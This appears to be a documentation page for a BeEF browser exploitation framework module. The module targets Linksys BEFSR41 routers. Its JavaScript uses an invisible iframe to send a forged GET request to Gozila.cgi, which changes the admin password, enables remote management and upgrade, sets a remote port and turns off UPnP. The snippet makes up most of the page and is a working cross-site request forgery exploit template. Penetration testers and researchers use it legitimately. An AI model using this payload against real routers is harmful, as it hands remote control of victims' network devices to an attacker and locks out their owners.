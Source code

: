 ## Summary

* **Objective**: enable remote administration and change the password on a Linksys BEFSR41 router
* **Authors**: Martin Barbella
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/linksys_befsr41_csrf)

## Internal Working

Uses an invisible iframe with GET request to change config

```js
  var befsr41_iframe_<%= @command_id %> = beef.dom.createInvisibleIframe();
  befsr41_iframe_<%= @command_id %>.setAttribute('src', '<%= @base %>Gozila.cgi?PasswdModify=1&sysPasswd=<%= @password %>&sysPasswdConfirm=<%= @password %>&Remote_Upgrade=1&Remote_Management=1&RemotePort=<%= @port %>&UPnP_Work=0');
```

## Feedback
